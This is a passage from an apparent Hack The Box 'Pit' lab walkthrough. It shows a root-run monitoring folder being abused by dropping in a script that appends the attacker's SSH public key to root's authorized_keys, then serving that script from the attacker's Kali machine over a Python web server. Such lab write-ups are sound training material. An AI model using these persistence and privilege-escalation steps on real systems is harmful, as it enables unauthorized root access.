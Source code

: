 This shows us michelle has write and execute but not read. So we should be able to put a file in there:

```text
[michelle@pit ~]$ echo "hello from pencer" > /usr/local/monitoring/pencer.txt
[michelle@pit ~]$ cat /usr/local/monitoring/pencer.txt
hello from pencer
```

## Gaining SSH Access

That works. We know the script is ran as root, but I couldn't get the flag or catch a reverse shell. So instead let's create a SSH key pair and put my public one in the root authorized_keys file:

```text
┌──(root💀kali)-[~/htb/pit/snmp]
└─# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/htb/pit/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/htb/pit/id_rsa
Your public key has been saved in /root/htb/pit/id_rsa.pub
The key fingerprint is:
SHA256:SfGxWlXyYpZaF4OxVhUkL8uX/qUNYLfFUa/4/xE6HAE root@kali
The key's randomart image is:
+---[RSA 3072]----+
|        . .E+=*++|
|         o +o*ooo|
|        . + Oooo.|
|       . + *.++oo|
|        S . ++o+o|
|           ..+=o.|
|             ++o.|
|              .=+|
|              . *|
+----[SHA256]-----+
```

Copy the contents of the id_rsa.pub file and create a file called checkss.sh with this contents:

```text
echo "ssh-rsa AAAAB3NzaC1yc2E<SNIP>EOaVRIQP/1eDlQlpDjn31yqf80= root@kali" >> /root/.ssh/authorized_keys
```

This script will echo my public key in to the root users authoriszed_keys file on the box. I just need to copy it across and put it in the monitoring folder. Start a web server on Kali:

```text
┌──(root💀kali)-[~/htb/pit]
└─# python3 -m http.server 80
```

Switch back to the web terminal on the box and pull the file across:
